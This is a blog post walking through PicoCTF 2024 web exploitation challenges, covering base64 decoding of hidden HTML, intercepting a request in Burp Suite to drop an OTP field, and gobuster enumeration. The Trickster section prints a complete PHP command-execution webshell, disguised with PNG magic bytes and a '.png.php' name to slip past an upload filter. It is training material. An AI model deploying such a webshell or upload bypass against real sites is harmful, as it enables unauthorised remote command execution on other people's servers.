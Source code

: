 ```yaml
---
title: "PicoCTF 2024: Web Exploitation"
categories: [blogs]
tags: ["picoctf", coding, ctf]
---
```


I have considered myself... practically done with the Forensics category for PicoCTF 2024. It truly is a guessfest whether or not your first solution is correct - I can't believe throwing out a random `find` into the command-line actually gave me the answer for [Mob psycho](picoctf-2024-forensics#mob-psycho)...

Well, here we go again, this time in my arguably best non-forensics category - Web Exploitation! Once again, I will be going through each of the challenges and solving them, while writing out my thought process for each challenge.

> Same thing as Forensics, this blogpost will describe the challenges and give the solutions to them - but I will not be giving out the flag in its entirety. All solutions with the flag in plain text will have the flag replaced by `picoCTF{flag}`.

1. Table of Contents
{:toc}

# WebDecode

> **Difficulty**: Easy \
> **Categories**: none

Well... We're thrown straight into a website that looks *really* suspicious. I'll perform due dilligence and... inspect the site HTML. Nothing in the home page, so I'll go into the About page.

And upon loading the About page, wow, the **very loud** text saying "Try inspecting the page!! You might find it there" really confirms that I'm getting somewhere.

Hitting F12 to open up my DevTools and I immediately see a weird section of HTML:

```html
<section class="about" notify_true="cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9">
   <h1>
    Try inspecting the page!! You might find it there
   </h1>
   <!-- .about-container -->
  </section>
```

That string looks very suspicious. One quick run into the base64 decoder again, using:

```
$ echo "cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9" | base64 -d
```

Aaaaaaaaand we've got it! Very simple challenge.

# Unminify

> **Difficulty**: Easy \
> **Categories**: obfuscation, minification

Yet another webpage, similar to [WebDecode](#web-decode) above. Once again, let's open up our DevTools and scan through the HTML.

It didn't take long before I reached this section of HTML:

```html
<p class="picoCTF{flag}"></p>
```

That's our flag, time to copy it and submit it.

# Bookmarklet

> **Difficulty**: Easy \
> **Categories**: obfuscation, browser

The website gives us another site, in the same template as [Unminify](#unminify). It also gives us a JavaScript bookmarklet to run as well. As it describes itself, it's a bookmarklet - very similar to my Kamaitachi maimai DX [import script](https://github.com/j1nxie/kt-maimaidx-site-importer). Let's create a quick bookmark and throw this in as the URL.

As soon as we click the bookmarklet, the flag shows up as an alert!

# IntroToBurp

> **Difficulty**: Easy \
> **Categories**: none

Well, as described by the challenge name, we'll need [BurpSuite](https://portswigger.net/burp) for this. Let's pull up BurpSuite and open the website in BurpSuite's browser (Proxy > Intercept > Turn on Intercept).

We see a little form that tells us to put our information in, and being the sane person that I am, I will put in my fully 100% real information into this.

![Screenshot of IntroToBurp form](/assets/img/picoctf/introtoburp1.png)

Hitting the Register button, while forwarding the packet as-is to the server, brings us to another form.

![Screenshot of IntroToBurp 2FA](/assets/img/picoctf/introtoburp2.png)

It's asking for an OTP code... but I haven't received anything. Weird. Let's try throwing in a random string... like `a` and submit it. BurpSuite nicely catches that request for us, and we can see the form data `otp=a` in the raw request packet. Let's try... removing that and see what happens!

After removing the OTP code from the form data, we got ourselves a nice malformed... well... form data sent over the wire. Let's see how the server reacts... And we got our flag!

# Trickster

> **Difficulty**: Medium \
> **Categories**: none

This is actually... a pretty tough one if you don't know where to immediately start. I opened up the site that the challenge gave, and there was no clear entry points to... anything, really. Uploading a PNG only gets a result string shown to you, like below.

![Screenshot of Trickster form](/assets/img/picoctf/trickster1.png)

I tried accessing a random directory, e.g. `atlas.picoctf.net:<port>/what`, and I got a 404 Not Found. That's expected. I also see this is running Apache, which means... there's PHP. But we haven't seen any clear entry points to get an arbitrary PHP script running here.

Let's get back to the root site. Sitting here won't do us any good, I guess it's time to use some tools? Using `gobuster`, and running a brute-force for URIs like such:

```
$ gobuster dir --url http://atlas.picoctf.net:<port>/ --wordlist /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://atlas.picoctf.net:<port>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 285]
/.htpasswd            (Status: 403) [Size: 285]
/robots.txt           (Status: 200) [Size: 62]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 333] [--> http://atlas.picoctf.net:49884/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We're seeing `robots.txt` that we can access, and `/uploads` being redirected to the root directory - looks like there's gonna be an accessible folder there. Let's try accessing `robots.txt`...

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

So the *very root* directory of `/uploads/` is not crawled, along with the file `instructions.txt`. Let's try looking at `instructions.txt`.

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Interesting... It looks like this doesn't do much validation on the PNG files themselves, other than checking for the `.png` extension *existing* in the file name, and the first few bytes containing `PNG`. I guess the uploaded files will also be stored under `/uploads/<file_name>`? That's an entry for our PHP now, no?

I will modify [easy-simple-php-webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) a tiny bit, so it has the magic bytes for PNG at the top.

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Along with that, I'll add the `.png` extension, saving it as `webshell.png.php` so it passes the extension check. Let's try uploading this. The form accepted it without any complaints! Time to try accessing this webshell under `/uploads/webshell.png.php`.

We're in. Let's try running `ls ../` to see the root directory. There's a weird file with the name `MQZWCYZWGI2WE.txt`. A simple `cat` on this file finally gives us the flag we're looking for!
